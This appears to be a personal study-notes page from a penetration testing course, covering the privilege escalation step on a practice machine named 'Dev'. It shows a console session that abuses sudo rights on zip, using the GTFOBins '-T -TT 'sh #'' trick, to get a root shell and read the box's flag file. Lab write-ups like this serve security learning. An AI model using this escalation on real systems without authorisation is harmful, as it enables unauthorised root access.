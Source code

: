 ```yaml
---
layout: default
title: Privilege Excalation
parent: Dev
grand_parent: TCM-Sec - PEH
permalink: /tcm-sec_PEH/dev/privilege-excalation
nav_order: 7
---
```


# Privilege Excalation <!-- markdownlint-disable-line MD025 MD022 -->
{: .no_toc}

## Table of contents <!-- markdownlint-disable-line MD022 -->
{: .no_toc .text-delta}

- TOC
{:toc }

## gtfobins

[https://gtfobins.github.io/gtfobins/zip/#sudo](https://gtfobins.github.io/gtfobins/zip/#sudo)

![gtfobins](../../assets/TCM-Sec/Dev/%20GTFOBins.png)

```console
jeanpaul@dev:~$ TF=$(mktemp -u)
jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
# ls
flag.txt 
# cat flag.txt  
Congratz on rooting this box !
```

> WE GOT ROOT & FLAG!!!

---

